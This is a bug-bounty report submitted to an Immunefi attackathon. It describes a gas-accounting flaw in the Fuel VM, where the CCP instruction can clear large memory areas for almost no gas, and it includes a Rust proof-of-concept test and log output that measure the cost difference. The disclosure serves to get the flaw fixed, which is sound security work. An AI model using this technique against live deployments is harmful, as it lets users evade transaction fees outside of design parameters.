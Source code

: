 
# Abuse of CCP instruction to do cheap memory clears

Submitted on Sat Jun 22 2024 14:11:33 GMT-0400 (Atlantic Standard Time) by @NinetyNineCrits for [Attackathon | Fuel Network](https://immunefi.com/bounty/fuel-network-attackathon/)

Report ID: #32465

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/FuelLabs/fuel-vm/tree/0e46d324da460f2db8bcef51920fb9246ac2143b

Impacts:
- Modification of transaction fees outside of design parameters

## Description
## Brief/Intro

The `CCP: code copy` instruction charges variable cost dependent on the size of the contract to copy from, but not for the actual amount of bytes to be copied. This can be abused to do cheap memory clears for large memory areas


## Vulnerability Details

The function `code_copy` that is invoked by the `CCP` instruction, loads the target contracts bytecode, charges for its length and then does a copy with zero-fill with a different length parameter:

```rs
pub(crate) fn code_copy(...){

    ...

    dependent_gas_charge_without_base(
        self.cgas,
        self.ggas,
        profiler,
        self.gas_cost,
        contract_len as u64, // <-- charged based on this 
    )?;

    copy_from_slice_zero_fill(
        self.memory,
        self.owner,
        contract.as_ref().as_ref(),
        dst_addr,
        offset,
        length, // <-- amount copied, excess zero-filled
    )?;
```

Any excess amount for the length of bytes gets zero-filled:

```rs
pub(crate) fn copy_from_slice_zero_fill<A: ToAddr, B: ToAddr>(...
    let range = memory.write(owner, dst_addr, len)?;

    let src_end = src_offset.saturating_add(range.len()).min(src.len());
    let data = src.get(src_offset..src_end).unwrap_or_default();

    range[..data.len()].copy_from_slice(data);
    range[data.len()..].fill(0);
```

The slice `data` can be turned into an empty slice (default value) by choosing a large offset. If data is an empty slice the `copy_from_slice` will do nothing. instead the full slice will be zero-filled (identical to a memory clear `MCL`)

## Impact Details
Users can perform an otherwise expensive instruction for almost no cost


## References
not applicable
        
## Proof of concept
## Proof of Concept

This POC shows the comparison in gas costs of a full memory clear between `MCL` and `CCP`

Add the following test to `fuel-vm/src/tests/flow.rs`:

```rs
#[test]
fn use_ccp_to_memory_clear() {
    let mut test_context = TestBuilder::new(2322u64);
    let gas_limit = 10_000_000;

    let program = vec![
        op::ret(RegId::ZERO), // super short contract
    ];

    let contract_id = test_context.setup_contract(program, None, None).contract_id;

    let (script, _) = script_with_data_offset!(
        data_offset,
        vec![
            op::movi(0x10, data_offset as Immediate18), //pointer to address
            op::sub(0x11, RegId::HP, RegId::SP), //store size of unallocated memory in register 0x11
            op::subi(0x12, 0x11, 1), //pointer to last writeable byte
            op::movi(0x13, 0xff), //value to write
            op::cfe(0x11), //extend the stack to fill the whole memory
            op::log(RegId::CGAS, 0x00, 0x00, 0x00), //log remaining gas

            // following block uses mcl to clear memory:

            op::sb(0x12, 0x13, 0), //write to last writeable byte
            op::lb(0x14, 0x12, 0), //load the value back to check with log
            op::log(0x00, 0x00, 0x00, 0x14), //log the value
            op::mcl(RegId::SSP, 0x11), //clear whole area between SSP and SP
            op::lb(0x14, 0x12, 0), //load last writeable byte to check if it was cleared
            op::log(RegId::CGAS, 0x00, 0x00, 0x14), //log remaining gas and check that value was used

            // following block uses ccp to clear memory:

            op::sb(0x12, 0x13, 0), //repeat write to last writeable byte
            op::lb(0x14, 0x12, 0), //repeat load the value back to check with log
            op::log(0x00, 0x00, 0x00, 0x14), //log the value
            op::ccp(RegId::SSP, 0x10, 0x11, 0x11), //clear whole area between SSP and SP (dst, pointer to contractId, code offset, length)
            op::lb(0x14, 0x12, 0), //load last writeable byte to check if it was cleared
            op::log(RegId::CGAS, 0x00, 0x00, 0x14), //log remaining gas and check that value was used
            
            op::ret(RegId::ONE),
        ],
        test_context.get_tx_params().tx_offset()
    );

    let mut script_data = contract_id.to_vec();
    script_data.extend([0u8; WORD_SIZE * 2]);

    let result = test_context
        .start_script(script, script_data)
        .script_gas_limit(gas_limit)
        .contract_input(contract_id)
        .fee_input()
        .contract_output(&contract_id)
        .execute();

    let receipts = result.receipts();

    //print receipts
    for receipt in receipts.iter() {
        println!("{:?}", receipt);
    }
}
```

The logs emitted by this are:

```
Log { id: 0000000000000000000000000000000000000000000000000000000000000000, ra: 9686444, rb: 0, rc: 0, rd: 0, pc: 10388, is: 10368 }
Log { id: 0000000000000000000000000000000000000000000000000000000000000000, ra: 0, rb: 0, rc: 0, rd: 255, pc: 10400, is: 10368 }
Log { id: 0000000000000000000000000000000000000000000000000000000000000000, ra: 9666291, rb: 0, rc: 0, rd: 0, pc: 10412, is: 10368 }
Log { id: 0000000000000000000000000000000000000000000000000000000000000000, ra: 0, rb: 0, rc: 0, rd: 255, pc: 10424, is: 10368 }
Log { id: 0000000000000000000000000000000000000000000000000000000000000000, ra: 9666255, rb: 0, rc: 0, rd: 0, pc: 10436, is: 10368 }
```

The gas costs for the `MCL` block are: 9686444 - 9666291 = 20153

The gas costs for the `CCP` block are 9666291 - 9666255 = 36

The overhead for the other operations in each block are: 1+1+9+1+9 = 21